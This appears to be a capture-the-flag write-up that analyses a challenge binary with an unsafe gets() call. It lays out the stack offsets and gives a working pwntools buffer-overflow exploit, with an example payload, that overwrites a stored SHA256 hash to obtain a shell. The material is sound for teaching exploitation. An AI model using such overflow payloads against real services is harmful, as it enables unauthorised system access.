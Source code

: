 ## Solution

To analyse the binary, we use [Cutter](https://github.com/rizinorg/cutter).

This challenge is similar to "Purrmission Denied". So its good to go through the solution of "Purrmission Denied" before reading this.

## Analysis

![Disassembly View](images/1.png)  
![Decompiler View](images/2.png)

By inspecting both the disassembled and decompiled views, we observe the following:

- The program uses the unsafe `gets()` function to read user input, making it vulnerable to a buffer overflow.
- User input is stored in variable s
- There is a hex data stored in variable s2
- The SHA256 hash of user input is calculated and converted into base 16 format.
- This is then compared with a hardcoded hash value (in variable s2)
- If both are equal, we get the shell. Else `You are lying. No access for you.` is printed.

The hardcoded hash value is
```
78448ff2086a0d4ae279ba13b156cb8409f889288b6dfee347a0223656fc8abf
```

This is no point in bruteforcing this as it could take a long time..(maybe years :lol:)


![Control Flow](images/3.png)


Running `checksec` on the binary shows no stack canaries are used.

This confirms that a **stack buffer overflow** is possible.


The disassembler reveals the stack layout:

```
; var char *s @ stack - 0x138
; var const char *s2 @ stack - 0xc8
; var int64_t var_c0h @ stack - 0xc0
; var int64_t var_b8h @ stack - 0xb8
; var int64_t var_b0h @ stack - 0xb0
; var int64_t var_a8h @ stack - 0xa8
; var int64_t var_a0h @ stack - 0xa0
; var int64_t var_98h @ stack - 0x98
; var int64_t var_90h @ stack - 0x90
; var int64_t var_88h @ stack - 0x88
; var const char *s1 @ stack - 0x78
; var int64_t var_28h @ stack - 0x28
```


This means:
- The buffer `s` starts at `rbp - 0x138`
- The hardcoded hash starts at `rbp - 0xc8`

Since we don't know the original value used to generate the hardcoded hash, we can't simply replicate it. However, due to the buffer overflow vulnerability, we can overwrite the hash used in the comparison to a hash of our own input, which we control.

Plan:
- The `SHA256()` function in C uses the length provided by `strlen()` to determine how many bytes of input to hash.
- The `strlen()` function returns the number of bytes up to the first null byte (`\x00`). It does not include the null byte itself.
- Therefore, we can provide an input like "hello" followed by a null byte (`\x00`). This ensures `strlen()` only reads "hello" for hashing. After that, we can add padding to reach the target variable `s2` buffer and finally overwrite the stored hash with the hash of "hello"

To calculate the exact padding required to overflow up to the stored hash, we can use the formula:
```c
padding = offset_of_s - offset_of_s2 - strlen("hello") - 1
```
We use -1 at the end to represent the length of null byte.


### Exploit Code

We can use Pwn Tools to write the exloit

```python
from pwn import *
from hashlib import sha256

# Connect to the vulnerable service
p = remote("CHALLENGE_IP", 1338)

user_input = b"hello"
user_input_hash = sha256(user_input).hexdigest()

# padding = offset_of_s - offset_of_s2 - strlen("hello") - 1
padding = b"A" * (0x138-0xc8-len(user_input)-1)

payload = user_input + b"\x00" + padding + user_input_hash.encode()

# Send the crafted input
p.sendline(payload)
# Interact with the shell
p.interactive()
```

Exmaple for a payload
```
hello\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
```

Running the exploit results in a shell:

![](images/4.png)

You can now grab the flag or run further commands.